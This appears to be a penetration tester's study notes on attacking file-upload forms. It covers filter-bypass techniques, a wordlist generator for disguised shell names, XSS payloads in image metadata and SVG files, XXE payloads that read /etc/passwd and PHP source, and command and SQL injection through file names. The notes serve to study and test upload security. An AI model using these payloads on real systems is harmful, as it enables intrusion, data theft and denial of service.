 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Bypassing Filters and Validation
### Client-side validation
- This can be bypassed by intercepting the request and sending it directly rather than via the website (eg. burp)

### File Extension Deny List
- In windows, file extensions are case insensitive
- Fuzz for if any extension variations are accepted ( [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst), [.NET](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP), and common [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt))
### File Extension Allow List
- Fuzzing extensions is still useful to see what extensions are available, it may also show if any extensions are able to be bypassed 
- Use double stacked extensions, it may be that the filter only check if it contains, not ends with
- Character injection (these have specific ways to be used however but most lists will include it correctly)
	- `%20`
	- `%0a`
	- `%00`
	- `%0d0a`
	- `/`
	- `.\`
	- `.`
	- `…`
	- `:`
This script will generate all permutations of character injection using the above
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Content-Type Filtering
- As the `Content-Type` header is determined client-side, we can modify it with [[Burp Suite]]. We can fuzz using something like SecLists' [Content-Type Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) to find which types are allowed.

### MIME-Type Filtering (File content inspection)
- These filters work by comparing the file's content to determine its MIME-Type. This is usually done by inspecting the first few bytes of the file's content to identify the [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).
- The magic bytes for *GIFs* are actually ASCII printable bytes so they can be easily added by prefixing the file with `GIF87a`, `GIF89a`, or `GIF8`.

To determine what kind of filters are in place, we can try the following:

| MIME-Type  | Content-Type | Extension  | Result                              |
| ---------- | ------------ | ---------- | ----------------------------------- |
| Allowed    | Allowed      | Allowed    | Should work fine                    |
| Allowed    | Allowed      | Disallowed | Extension filtering                 |
| Allowed    | Disallowed   | Allowed    | Content-Type filtering              |
| Disallowed | Allowed      | Allowed    | MIME-Type filtering                 |
| Allowed    | Disallowed   | Disallowed | Content-Type &/ Extension filtering |
| Disallowed | Disallowed   | Allowed    | MIME-Type &/ Content-Type filtering |
| Disallowed | Allowed      | Disallowed | MIME-Type &/ Extension filtering    |

## Limited File Uploads
Some file upload forms will have protections that cannot be bypassed, however, this doesn't mean that we can't abuse these still...
### XSS
Javascript code could be included in an uploaded file (eg. image metadata) which might then be able to be used as a [[Cross-Site Scripting (XSS)#Stored XSS|Stored XSS]] exploit.
```bash
# Change the image metedata comment to include an XSS payload
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```
If the metadata of an image was viewable on the site, it may allow for XSS. We might be able to change the image's MIME-Type to `text/html` which some applications may interpret as a HTML document instead of an image.

This can also be done for other formats like `SVG`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
	<rect x="1" y="1" width="1" height="1" fill="white" />
	<script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE
As `SVG` files are XML-based, we can also do XXE attacks via them.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
As reading files is particularly important for web applications, we might able to view source code. Eg.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
> XXE isn't limited to just SVGs, any file type that contains XML data can be used (eg. PDF, Word, PowerPoint). Many files use XML for its formatting.
> XXE can also be used to trigger SSRF attacks.

### DoS
- *Decompression bombs* could be uploaded if the target automatically decompresses it, this could cause a denial of service of the host
- *Pixel Flood* attacks are when an image's compression size is modified to make the system run out of memory when it attempts to allocate memory to load the image
- *Large files* could also be uploaded to fill the storage space of the system, causing it to crash or slow down considerably
- If *directory traversal* is possible through the upload, we could replace critical files potentially, causing the machine to crash

## File Name Injections
Sometimes we can input OS commands in file names to be reflected back via the webpage.
- `file$(whoami).jpg`
- `file.jpg||whoami`
If the file was moved eg. `mv file /tmp` then our injection would get triggered.
> We could put a variety of payloads in here eg. XSS, SQLi to try to trigger an exploit
> `<script>alert(window.origin);</script>`
> `file';select+sleep(5);--.jpg`

We could try to upload files with the same name, or with a very long name. All of these could cause an error message that could give us information (eg. upload path).

## Windows-specific Attacks
- Reserved characters (could be treated as wildcards) : `|`, `<`, `>`, `*` or `?`
- Reserved file names : `CON`, `COM1`, `LPT1`, or `NUL`
- Could use [8.3 Filename Convention](https://en.wikipedia.org/wiki/8.3_filename) to overwrite existing files or refer to files that don't exist
	- Older versions of windows couldn't handle long file names so they were shortened with `~` (eg. `thislongname.txt` -> `THI~1.txt`)
	- We could write a file called `WEB~1.CON` to overwrite `web.conf`, which could cause other issues.

## Prevention and Remediation
